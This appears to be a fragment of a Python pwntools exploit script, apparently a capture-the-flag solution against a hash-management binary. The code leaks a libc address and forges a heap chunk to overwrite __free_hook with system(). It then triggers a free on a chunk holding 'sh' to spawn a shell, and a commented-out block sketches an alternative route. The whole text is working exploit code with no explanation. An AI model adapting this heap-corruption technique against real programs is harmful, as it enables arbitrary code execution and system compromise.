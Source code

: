 ```python
edit_hash(0, "code", 'a' * 16 + payload)
name, code = query_hash("md5_16", ".")
free_addr = u64(name.ljust(8, '\x00'))
libc.address = free_addr - libc.symbols['free']
free_hook_addr = libc.symbols['__free_hook']

raw_input("attach")
########################### write malloc hook ############################
fake_st = [
        0, #prev size
        0x21, #size
        0x10, #hash_len
        0x601f78, #name
        free_hook_addr, #code
        0x21
        ]
payload = ''.join([p64(_) for _ in fake_st])
edit_hash(0, "code", 'a' * 16 + payload)

edit_hash(1, "code", p64(libc.symbols['system']) + 'a' * (16 - 8))
edit_hash(1, "name", "sh\x00")

del_hash(1)
p.interactive()
"""
new_hash("md5_16", 'a' * 16, 'a' * 16)
edit_hash(2, "type", "sha1")
edit_hash(2, "name", 'a' * 100)
edit_hash(2, "name", 'a' * 200)
edit_hash(2, "code", 'a' * 16 + p64(0) + p64(0x71) + p64(free_hook_addr - 19))

new_hash("md5_16", 'a' * 100, 'a' * 16)

print "free() addr:", hex(free_addr)
print "puts() addr:", hex(u64(code.ljust(8, '\x00')))
print "libc base addr:", hex(libc.address)
print "free_hook addr", hex(libc.symbols['__free_hook'])
raw_input("wait for attach")

new_hash("md5_16", 'a' * 19 + p64(libc.symbols['system']) + 'a' * (100-8-19), 'a' * 16)
new_hash("md5_16", 'sh\x00', 'a' * 16)
####
del_hash(5)
"""
```




